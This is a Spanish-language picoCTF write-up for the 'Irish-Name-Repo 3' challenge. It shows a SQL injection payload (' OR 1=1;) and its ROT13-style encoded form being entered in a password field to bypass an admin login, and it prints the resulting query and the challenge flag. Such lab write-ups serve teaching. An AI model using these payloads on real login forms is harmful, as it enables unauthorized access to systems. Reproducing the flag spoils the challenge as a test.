 # 3- Irish-Name-Repo 3

# Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
# Solución
```
ingresas al mismo lugar que los anteriores retos, pero aqui solo aparece para introducir el password, cambia la misma linea del reto uno y dos al inspeccinar para proseguir con lo siguiente:

en la contraseña agregamos la siguiente inyeccion :

' OR 1=1;

te mostrara error pero te regresara:

' BE 1=1;

copialo regresa a la pagina del login y ingresalo en el password y listo reto terminado.

(Regresa lo siguiente al dar clic en login)

password: ' BE 1=1;
SQL query: SELECT * FROM admin where password = '' OR 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
```
# Notas Adicionales

# Referencias